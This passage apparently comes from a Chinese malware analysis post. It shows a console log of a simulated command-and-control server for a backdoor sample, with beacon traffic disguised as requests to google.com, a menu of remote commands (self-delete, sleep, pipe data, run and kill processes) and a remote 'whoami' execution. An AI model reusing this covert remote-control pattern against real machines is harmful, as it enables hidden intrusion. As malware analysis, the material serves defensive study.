 [![](assets/1701827602-81d08cae09e8736b93c083f95c97048f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205154647-719088c8-9342-1.png)

相关操作命令如下：

```bash
F:\GolandProjects\awesomeProject1>awesomeProject1.exe
Server started. Listening on 0.0.0.0:8000
POST /login.php HTTP/1.1
Host: www.google.com
Connection: keep-alive
Cache-Control: max-age=0
Sec-Fetch-Mode: 10
Sec-Fetch-User: S-WIN-JMKXXXXXOT
Sec-Fetch-Dest: 01


请选择需执行的功能:exit、help、11、12、30、33、34
>help
********支持功能如下********
11：样本自删除
12：休眠 1 小时
30：向管道传输数据
33：创建进程，并返回进程回显信息
34：终止 33 指令运行的进程程序
**************************
请选择需执行的功能:exit、help、11、12、30、33、34
>33
33 指令 - 请输入需执行的命令：quit-返回上层指令
>cmd.exe /c whoami
HTTP/1.1 200 OK
Content-Type: text/html
Sec-Fetch-Mode: 33
Content-Length: 18


GET http://www.google.com/search?q&cp=0&xssi=t&hl=en&authuser=1&nolsbt=1&dpr=1 HTTP/1.1
Sec-Fetch-Mode: 30
```